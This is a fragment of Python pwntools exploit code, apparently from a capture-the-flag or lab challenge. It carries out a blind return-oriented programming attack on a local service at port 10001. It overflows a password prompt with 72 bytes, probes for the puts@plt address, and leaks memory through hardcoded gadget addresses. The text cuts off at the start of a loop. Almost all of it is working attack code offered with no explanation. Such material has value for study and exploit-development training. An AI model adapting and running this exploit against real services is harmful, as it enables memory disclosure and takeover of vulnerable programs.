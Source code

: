 ```python
        sh.recvuntil(b'password?\n')
        payload = length*b'a' + p64(pop_rdi_ret) + \
            p64(0x400000) + p64(addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content1 = sh.recv(timeout=2)
            if content1.startswith(b'\x7fELF'):
                flag1 = True
        except EOFError:
            flag1 = False
        sh.close()
        sh = remote('127.0.0.1', 10001)
        sh.recvuntil(b'password?\n')
        payload = length*b'a' + p64(pop_rdi_ret) + \
            p64(0x400000) + p64(addr+6) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content2 = sh.recv(timeout=2)
            info(b'content2:' + content2)
            if content2.startswith(b'\x7fELF'):
                flag2 = True
        except EOFError:
            flag2 = False
        info('flag1:{}, flag2:{}'.format(flag1, flag2))
        if (flag1 & flag2):
            success('get the start of puts_plt addr:' + hex(addr))
            return addr
        else:
            addr += 1


def leak(length, pop_rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 10001)
    payload = length*b'a' + p64(pop_rdi_ret) + \
        p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        if b'WelCome' in data:
            data = data[:data.index(b"\nWelCome")]
        else:
            data = data
        if data == b"":
            data = b'\x00'
        return data
    except Exception:
        sh.close()
        info('failure in {}'.format(leak_addr))
        return None


if __name__ == '__main__':

    # length = get_stack_length()
    length = 72
    stop_gadget = 0x4006b6  # return to the start
    # stop_gadget = get_stop_addr(length)
    info('start to find brop gadgets:')
    brop_gadgets = 0x4007ba  # 0x4007ba for add rsp, 6
    '''
    while True:
```